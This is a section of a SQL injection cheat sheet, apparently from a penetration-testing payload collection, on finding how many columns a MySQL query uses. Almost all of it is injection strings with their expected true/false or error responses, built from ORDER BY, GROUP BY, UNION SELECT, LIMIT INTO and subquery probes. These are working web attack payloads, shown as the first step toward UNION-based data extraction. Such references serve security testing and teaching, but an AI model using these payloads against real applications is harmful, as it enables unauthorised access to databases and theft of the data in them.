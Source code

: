 ##### USING ORDER BY OR GROUP BY
Keep incrementing the number until you get a False response. Even though GROUP BY and ORDER BY have different functionality in SQL, they both can be used in the exact same fashion to determine the number of columns in the query.

```
1' ORDER BY 1--+    #True
1' ORDER BY 2--+    #True
1' ORDER BY 3--+    #True
1' ORDER BY 4--+    #False - Query is only using 3 columns

#-1' UNION SELECT 1,2,3--+  True
```

Or

```
1' GROUP BY 1--+    #True
1' GROUP BY 2--+    #True
1' GROUP BY 3--+    #True
1' GROUP BY 4--+    #False - Query is only using 3 columns

1' UNION SELECT 1,2,3--+  True
```

##### USING ORDER BY OR GROUP BY ERROR BASED
Similar to the previous method, we can check the number of columns with 1 request if error showing is enabled.

```
1' ORDER BY 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100--+

Unknown column '4' in 'order clause'
```

This error means query uses 3 column

```
1' UNION SELECT 1,2,3--+  True
```

Or

```
1' GROUP BY 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100--+

Unknown column '4' in 'group statement'
```

This error means query uses 3 column

```
1' UNION SELECT 1,2,3--+  True
```

##### USING UNION SELECT ERROR BASED
This method works if error showing is enabled

```
1' UNION SELECT @--+        #The used SELECT statements have a different number of columns
1' UNION SELECT @,@--+      #The used SELECT statements have a different number of columns
1' UNION SELECT @,@,@--+    #No error means query uses 3 column

1' UNION SELECT 1,2,3--+  True
```

##### USING LIMIT INTO ERROR BASED
This method works if error showing is enabled. It is useful for finding the number of columns when the injection point is after a LIMIT clause.

```
1' LIMIT 1,1 INTO @--+        #The used SELECT statements have a different number of columns
1' LIMIT 1,1 INTO @,@--+      #The used SELECT statements have a different number of columns
1' LIMIT 1,1 INTO @,@,@--+    #No error means query uses 3 column

1' UNION SELECT 1,2,3--+    True
```

##### USING SELECT * FROM SOME_EXISTING_TABLE ERROR BASED
This works if you know the table name you're after and error showing is enabled. It will return the amount of columns in the table, not the query.

```
1' AND (SELECT * FROM Users) = 1--+     #Operand should contain 3 column(s)
                                        # This error means query uses 3 column

1' UNION SELECT 1,2,3--+  True
```